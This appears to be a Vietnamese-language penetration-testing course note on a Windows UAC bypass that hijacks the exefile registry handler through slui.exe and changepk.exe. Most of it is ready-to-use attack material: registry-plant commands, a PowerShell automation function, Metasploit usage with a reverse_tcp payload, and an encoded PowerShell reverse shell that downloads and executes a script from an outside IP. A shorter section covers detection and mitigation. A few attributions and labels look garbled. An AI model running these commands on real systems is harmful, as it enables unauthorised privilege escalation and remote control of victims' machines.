

> **Prerequisites**: [[03-registry-hijack-fodhelper|03. Registry Hijack — fodhelper]] · [[04-registry-hijack-eventvwr|04. Registry Hijack — eventvwr]]
> **Objectives**:
> - Hiểu cơ chế slui.exe lạm dụng Windows Activation flow
> - Biết mối liên hệ giữa slui.exe và changepk.exe
> - Thực hiện exefile shell handler hijack
> - Nắm khi nào dùng slui thay các techniques trước

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User trong local Administrators group (Medium Integrity)
> - UAC không ở Always Notify
> - Windows 10 (slui.exe và changepk.exe — Windows Activation binaries)
> - Cả hai binary có `autoElevate=true` trong manifest

---

## Cơ chế tấn công

### slui.exe và changepk.exe là gì?

`slui.exe` (Software Licensing UI) là UI binary cho Windows Activation. `changepk.exe` là binary thay đổi product key. Cả hai có `autoElevate=true`.

**Kỹ thuật được Matt Nelson (`@mattharr0ey`) phát hiện** — công bố trên blog của anh ấy. Technique này khai thác hai mức:

**Cấp 1 — slui.exe / changepk.exe trực tiếp** đọc `exefile` shell handler:

```text
Khi slui.exe cần spawn process:
1. HKCU\Software\Classes\exefile\shell\open\command  ← attacker hijacks this
2. HKLM\Software\Classes\exefile\shell\open\command  ← legitimate: "%1" %*
```

**Cấp 2 — slui.exe gọi changepk.exe**, và changepk.exe cũng đọc handler tương tự. Tùy vào phiên bản Windows, một trong hai trigger sẽ hoạt động.

### exefile Handler — Điều gì đặc biệt?

`exefile` là ProgID cho `.exe` files — handler mặc định để chạy executable. Khi process elevated cần launch executable, Windows tra cứu shell verb qua ProgID này. Vì `exefile` handler nằm trong HKCU lookup path, attacker có thể redirect toàn bộ executable launch từ elevated process về payload của mình.

```text
Medium Integrity shell
    ↓ Plant: HKCU\Software\Classes\exefile\shell\open\command = "cmd.exe"
    ↓        + DelegateExecute = ""  (bắt buộc)
    ↓ Trigger: start slui.exe  (auto-elevated → High Integrity)
        ↓ slui.exe tries to launch changepk.exe or other .exe
        ↓ Looks up exefile handler → finds attacker's cmd.exe in HKCU
        ↓ Executes cmd.exe AT High Integrity
→ High Integrity shell — no prompt
```

### Metasploit Module

Microsoft Module: `exploit/windows/local/bypassuac_sluihijack` — implement kỹ thuật này tự động.

---

## Quy trình tấn công

**Môi trường giả định**: Medium Integrity shell, Windows 10.

### Bước 1 — Kiểm tra điều kiện

```cmd
whoami /groups | findstr "S-1-5-32-544"
Test-Path "C:\Windows\System32\slui.exe"
whoami /groups | findstr "Medium Mandatory"
```

### Bước 2 — Plant registry key

```cmd
reg add "HKCU\Software\Classes\exefile\shell\open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\exefile\shell\open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
```

> **Expected output**: The operation completed successfully.

### Bước 3 — Trigger slui.exe

```cmd
start slui.exe
```

> **Expected output**: cmd.exe mới xuất hiện ở High Integrity. slui.exe activation window cũng có thể xuất hiện — đây là normal behavior của binary.

### Bước 4 — Verify

```cmd
whoami /groups | findstr "High Mandatory"
whoami /priv | findstr "SeDebugPrivilege"
```

### Bước 5 — Cleanup

```cmd
reg delete "HKCU\Software\Classes\exefile" /f
```

### PowerShell automation

```powershell
function Invoke-SluiBypass {
    param([string]$Command = "cmd.exe")

    $regPath = "HKCU:\Software\Classes\exefile\shell\open\command"
    try {
        New-Item -Force -Path $regPath -Value $Command | Out-Null
        New-ItemProperty -Force -Path $regPath -Name "DelegateExecute" `
            -Value "" -PropertyType String | Out-Null

        Start-Process "slui.exe" -WindowStyle Hidden
        Start-Sleep -Seconds 3
        Write-Output "[+] slui bypass triggered"
    } finally {
        Remove-Item -Force -Recurse "HKCU:\Software\Classes\exefile" `
            -ErrorAction SilentlyContinue
        Write-Output "[*] Cleaned up"
    }
}

Invoke-SluiBypass -Command "cmd.exe"
```

### Metasploit

```bash
msf > use exploit/windows/local/bypassuac_sluihijack
msf > set SESSION <ID>
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf > set LHOST <IP>
msf > exploit
```

---

## Biến thể & Bypass

### changepk.exe thay slui.exe

Nếu `slui.exe` bị block, `changepk.exe` dùng cùng cơ chế:

```cmd
reg add "HKCU\Software\Classes\exefile\shell\open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\exefile\shell\open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start changepk.exe
reg delete "HKCU\Software\Classes\exefile" /f
```

### Reverse shell payload

```powershell
$b64 = [Convert]::ToBase64String(
    [Text.Encoding]::Unicode.GetBytes("IEX(IWR 'http://10.10.14.1/rev.ps1')")
)
$cmd = "powershell.exe -nop -w hidden -enc $b64"

$p = "HKCU:\Software\Classes\exefile\shell\open\command"
New-Item -Force -Path $p -Value $cmd | Out-Null
New-ItemProperty -Force -Path $p -Name "DelegateExecute" -Value "" | Out-Null
Start-Process slui.exe -WindowStyle Hidden
Start-Sleep 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\exefile"
```

---

## Cây quyết định



---

## Command Cheatsheet

**Bảng so sánh registry key — 4 techniques**

| Binary | Registry Path | Key đặc biệt |
|--------|-------------|-------------|
| fodhelper | `HKCU\...\ms-settings\Shell\Open\command` | DelegateExecute (empty) |
| eventvwr | `HKCU\...\mscfile\shell\open\command` | Default only |
| sdclt | `HKCU\...\Folder\shell\open\command` | IsolatedCommand |
| slui | `HKCU\...\exefile\shell\open\command` | DelegateExecute (empty) |

**slui.exe bypass**

```cmd
reg add "HKCU\Software\Classes\exefile\shell\open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\exefile\shell\open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start slui.exe
reg delete "HKCU\Software\Classes\exefile" /f
```

**changepk.exe swap**

```cmd
reg add "HKCU\Software\Classes\exefile\shell\open\command" /d "cmd.exe" /f
reg add "HKCU\Software\Classes\exefile\shell\open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
start changepk.exe
reg delete "HKCU\Software\Classes\exefile" /f
```

**MSF**

```bash
use exploit/windows/local/bypassuac_sluihijack
set SESSION <ID>; set LHOST <IP>; exploit
```

---

## Daily Drill

**Thời gian**: 10 phút/ngày trong 5 ngày.

**Drill 1 — Registry key map**
Mục tiêu: nhớ toàn bộ bảng so sánh 4 techniques mà không cần lookup.

Luyện cho đến khi: đọc tên binary → ngay lập tức biết registry path và key value đặc biệt.

**Drill 2 — Nhớ điểm khác biệt slui vs eventvwr**
Slui: `exefile\shell\open\command` + cần `DelegateExecute`
Eventvwr: `mscfile\shell\open\command` + chỉ cần `(Default)`

Luyện cho đến khi: phân biệt ngay mà không nhầm.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Registry**: Write đến `HKCU\Software\Classes\exefile\shell\open\command` là cực kỳ suspicious
> - Sysmon Event ID 13: `TargetObject: *exefile\shell\open\command*`
> - Rất hiếm legitimate software write vào key này
>
> **Process**: `slui.exe` hoặc `changepk.exe` spawn `cmd.exe`, `powershell.exe`
> - Normal behavior: chỉ spawn `changepk.exe` (slui→changepk), UI dialogs
>
> **FalconForce KQL** (Defender for Endpoint):
> ```
> DeviceRegistryEvents
> | where RegistryKey contains "exefile\\shell\\open\\command"
>     and InitiatingProcessAccountType != "System"
> ```

> [!note] Mitigation
> - Monitor write đến `HKCU\Software\Classes\exefile\` — không có legitimate reason
> - Tăng UAC lên Always Notify
> - Block `slui.exe` và `changepk.exe` qua AppLocker nếu không cần Windows Activation UI

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Local VM | Windows 10/11 | Test slui và changepk variants, quan sát trong Procmon |
| HTB | **Arkham** (Retired) | So sánh techniques — slui vs CMSTP |
| HTB | **VulnEscape** (Retired) | UAC bypass khi có admin password |
| TryHackMe | **Bypassing UAC** | Practice room với nhiều techniques |

---

## Field Manual Entry

> [!abstract] slui.exe / changepk.exe UAC Bypass
> **Điều kiện**: User trong Admins, UAC ≠ Always Notify, Windows 10
> **Key đặc trưng**: `exefile\shell\open\command` + cần set `DelegateExecute` (empty)
> **Lệnh nhanh**:
> ```cmd
> reg add "HKCU\Software\Classes\exefile\shell\open\command" /d "cmd.exe" /f
> reg add "HKCU\Software\Classes\exefile\shell\open\command" /v "DelegateExecute" /t REG_SZ /d "" /f
> start slui.exe
> reg delete "HKCU\Software\Classes\exefile" /f
> ```
> **Fallback**: `start changepk.exe` thay vì slui.exe — cùng registry key
> **MSF**: `use exploit/windows/local/bypassuac_sluihijack`
> **Ref**: [[06-registry-hijack-slui-changepk|06. Registry Hijack — slui & changepk]]
